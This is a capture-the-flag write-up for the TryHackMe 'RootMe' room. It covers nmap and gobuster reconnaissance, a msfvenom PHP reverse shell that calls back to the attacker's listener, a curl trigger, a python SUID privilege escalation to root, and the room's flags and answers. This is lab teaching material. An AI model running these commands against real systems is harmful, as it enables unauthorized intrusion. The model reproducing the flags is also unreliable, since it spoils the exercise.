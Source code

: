 
---
---

<div align="center">

# TryHackMe RootMe


<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png" alt="THM RootMe" width="220px" height="220px" style="margin-right: 85px;">
<img src="https://assets.tryhackme.com/img/THMlogo.png" alt="THM Logo" width="250px" height="150px" style="margin-bottom: 50px;">

<br>

🔗 [Click here to access the TryHackMe room](https://tryhackme.com/room/rrootme)

<br>

</div>


## IP Addresses:

* ### Target/Victim Machine
	```
	10.10.188.49 (Ubuntu 18.04.4 LTS)
	```

* ### Attacker Machine
	```
	10.17.35.235 (Ubuntu 23.10)
	```


<br>

## Reconnaissance:

* ### Nmap Scan

	> nmap -sV 10.10.188.49 -o nmap.log

	```
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1
	80/tcp open  http    Apache httpd 2.4.29
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```

* ### Gobuster Scan

	> gobuster dir -u 10.10.188.49 -w ~/tools/wordlists/dirb/common.txt -o gobuster.log

	```
	/.hta                 (Status: 403) [Size: 277]
	/.htpasswd            (Status: 403) [Size: 277]
	/.htaccess            (Status: 403) [Size: 277]
	/css                  (Status: 301) [Size: 310]
	/index.php            (Status: 200) [Size: 616]
	/js                   (Status: 301) [Size: 309]
	/panel                (Status: 301) [Size: 312]
	/server-status        (Status: 403) [Size: 277]
	/uploads              (Status: 301) [Size: 314]
	```


<br>

## THM Questions (Task 1):

* _Q1_: Scan the machine, how many ports are open? <br> _A_: `2`
* _Q2_: What version of Apache is running? <br> _A_: `2.4.29`
* _Q3_: What service is running on port 22? <br> _A_: `ssh`
* _Q4_: What is the hidden directory? <br> _A_: `/panel/`


<br>

## Attempting to gain a shell:

* ### Payload creation (PHP Reverse Shell)

	> msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o shell.php5

* ### Listening to connection on msfconsole

	> msfconsole

	> use exploit/multi/handler

	> set payload php/reverse_php

	> set LHOST tun0

	> exploit

* ### Executing reverse shell on the server

	> curl 10.10.188.49/uploads/shell.php5


Shell obtained successfully with user `www-data`


<br>

## USER.TXT:

* ### Finding

	> find / -name user.txt 2>/dev/null

	```
	/var/www/user.txt
	```

* ### Reading

	> cat /var/www/user.txt

	```
	THM{y0u_g0t_a_sh3ll}
	```


<br>

## THM Questions (Task 2):

* _Q1_: user.txt <br> _A_: `THM{y0u_g0t_a_sh3ll}`


<br>

## Attempting privilege escalation:

* ### linPEAS.sh scan

	`/usr/bin/python` is found to be having some weird SUID permissions, and hence a potential PrivEsc vector

* ### Found Python SUID exploitation on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid)

	> /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Root access gained successfully!


<br>

## ROOT.TXT:

* ### Finding

	> find / -name root.txt 2>/dev/null

	```
	/root/root.txt
	```

* ### Reading

	> cat /root/root.txt

	```
	THM{pr1v1l3g3_3sc4l4t10n}
	```


<br>

## THM Questions (Task 3):

* _Q1_: Search for files with SUID permission,, which file is weird? <br> _A_: `/usr/bin/python`
* _Q2_: root.txt <br> _A_: `THM{pr1v1l3g3_3sc4l4t10n}`


<br>

---
---

<div align="center">

💻 Created by [Jayaditya Dev](https://tryhackme.com/p/jayadityadev)

🚀 Find me on [GitHub](https://github.com/jayadityadev)

</div>

---
---